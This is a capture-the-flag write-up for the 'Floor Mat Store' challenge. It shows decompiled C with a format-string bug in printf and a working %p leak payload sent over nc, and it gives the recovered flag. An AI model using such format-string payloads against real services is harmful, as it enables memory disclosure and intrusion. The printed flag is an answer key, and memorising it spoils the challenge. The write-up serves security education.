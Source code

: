 ## **Floor Mat Store**
### Description
<sup>Author: CryptoCat</sup><br>
Welcome to the Floor Mat store! It's kind of like heaven.. for mats

`floormats.ctf.intigriti.io 1337`<br>
[floormats](./floormats)
### Solution
This challenge give us `ELF 64-bit` file.
```bash
$ file floormats   
floormats: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=386aa1493b9103743d0ce9091badfa29d656245e, for GNU/Linux 3.2.0, not stripped
```

I used ghidra to decompile the program. [Decompiled source code - floormats](#decompiled-source-code---floormats)<br>
There is a secret mat `6. Mysterious Flag Mat - $1337` at line 26.<br>
According to the [Decompiled source code - floormats](#decompiled-source-code---floormats), If the first input is `6`, the program will read `flag.txt` and put it in `local_d8` variable.<br>
At line 56, There is a **format string vuln** `printf(local_98);` because It call printf() without specific a type of the varible. So If we input something like this `%p` -> `printf(%p);` the program will bring something in memory.

The idea to read the flag is
1. input `6` then the program will load content of `flag.txt` in memory.
2. input many `%p` and hope the program will leak the flag.

After a while I found that first location of the flag `%18$p` <br>
payload:  `%23$p %22$p %22$p %21$p %20$p %19$p %18$p`

```bash
$ nc floormats.ctf.intigriti.io 1337
Welcome to the Floor Mat store! It's kind of like heaven.. for mats.

Please choose from our currently available floor mats

Note: Out of stock items have been temporarily delisted

Please select a floor mat:

1. Cozy Carpet Mat - $10
2. Wooden Plank Mat - $15
3. Fuzzy Shag Mat - $20
4. Rubberized Mat - $12
5. Luxury Velvet Mat - $25

Enter your choice:
6

Please enter your shipping address:
%23$p %22$p %22$p %21$p %20$p %19$p %18$p

Your floor mat will be shipped to:

0x7d66376e3172 0x705f37753062345f 0x705f37753062345f 0x6e7234775f793368 0x375f7968775f3537 0x3468375f30357b49 0x5449524749544e49
```

```
0x7d66376e3172 0x705f37753062345f 0x705f37753062345f 0x6e7234775f793368 0x375f7968775f3537 0x3468375f30357b49 0x5449524749544e49
```
Decode these hex and reverse them. then get the flag. 
[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')&input=MHg3ZDY2Mzc2ZTMxNzIgMHg3MDVmMzc3NTMwNjIzNDVmIDB4NzA1ZjM3NzUzMDYyMzQ1ZiAweDZlNzIzNDc3NWY3OTMzNjggMHgzNzVmNzk2ODc3NWYzNTM3IDB4MzQ2ODM3NWYzMDM1N2I0OSAweDU0NDk1MjQ3NDk1NDRlNDk)

> Flag: INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_p_4b0u7_pr1n7f}
{: .prompt-tip }

#### Decompiled source code - floormats
```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  int local_128;
  int local_124;
  __gid_t local_120;
  int local_11c;
  char *local_118;
  FILE *local_110;
  char *local_108 [4];
  char *local_e8;
  char *local_e0;
  char local_d8 [64];
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  local_108[0] = "1. Cozy Carpet Mat - $10";
  local_108[1] = "2. Wooden Plank Mat - $15";
  local_108[2] = "3. Fuzzy Shag Mat - $20";
  local_108[3] = "4. Rubberized Mat - $12";
  local_e8 = "5. Luxury Velvet Mat - $25";
  local_e0 = "6. Mysterious Flag Mat - $1337";
  local_118 = local_d8;
  local_120 = getegid();
  setresgid(local_120,local_120,local_120);
  local_110 = fopen("flag.txt","r");
  if (local_110 == (FILE *)0x0) {
    puts("You have a flag.txt, right??");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts(
      "Welcome to the Floor Mat store! It\'s kind of like heaven.. for mats.\n\nPlease choose from o ur currently available floor mats\n\nNote: Out of stock items have been temporarily delisted\n "
      );
  puts("Please select a floor mat:\n");
  for (local_124 = 0; local_124 < 5; local_124 = local_124 + 1) {
    puts(local_108[local_124]);
  }
  puts("\nEnter your choice:");
  __isoc99_scanf(&DAT_001021b6,&local_128);
  if ((0 < local_128) && (local_128 < 7)) {
    local_11c = local_128 + -1;
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    if (local_11c == 5) {
      fgets(local_d8,0x40,local_110);
    }
    puts("\nPlease enter your shipping address:");
    fgets(local_98,0x80,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(local_98);
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return 0;
  }
  puts("Invalid choice!\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
